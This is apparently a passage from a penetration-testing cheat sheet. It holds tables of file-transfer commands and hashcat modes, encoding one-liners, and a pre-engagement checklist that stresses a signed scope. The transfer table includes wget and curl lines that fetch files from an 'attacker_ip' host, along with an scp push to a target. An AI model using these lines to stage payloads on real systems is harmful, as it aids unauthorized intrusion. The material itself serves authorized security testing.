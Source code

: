 ### 📊 File Transfer Methods

| **Method** | **Command** | **Use Case** |
|------------|-------------|--------------|
| **HTTP Server** | `python3 -m http.server 8000` | Serve files locally |
| **wget** | `wget http://attacker_ip:8000/file` | Download from HTTP |
| **curl** | `curl http://attacker_ip:8000/file -o file` | Download with curl |
| **SCP** | `scp file user@target:/tmp/` | Secure copy over SSH |
| **Base64** | `base64 file \| base64 -d > file` | Encode/decode transfer |
| **FTP** | `python -m pyftpdlib -p 21` | Simple FTP server |

### 🔐 Hash & Encoding

#### Hash Identification
| **Hash Type** | **Example Length** | **Hashcat Mode** |
|---------------|-------------------|------------------|
| **MD5** | 32 chars | -m 0 |
| **SHA1** | 40 chars | -m 100 |
| **SHA256** | 64 chars | -m 1400 |
| **NTLM** | 32 chars | -m 1000 |
| **bcrypt** | 60 chars | -m 3200 |

#### Common Encodings
```bash
# Base64
echo "text" | base64
echo "dGV4dAo=" | base64 -d

# URL encoding
python -c "import urllib.parse; print(urllib.parse.quote('text with spaces'))"

# Hex encoding
echo "text" | xxd -p
echo "74657874" | xxd -r -p
```

---

## 🎯 Engagement Workflow Checklist

### Pre-Engagement
- [ ] Signed statement of work
- [ ] Defined scope and rules of engagement
- [ ] Emergency contact procedures
- [ ] Testing environment prepared
- [ ] Tools and wordlists updated

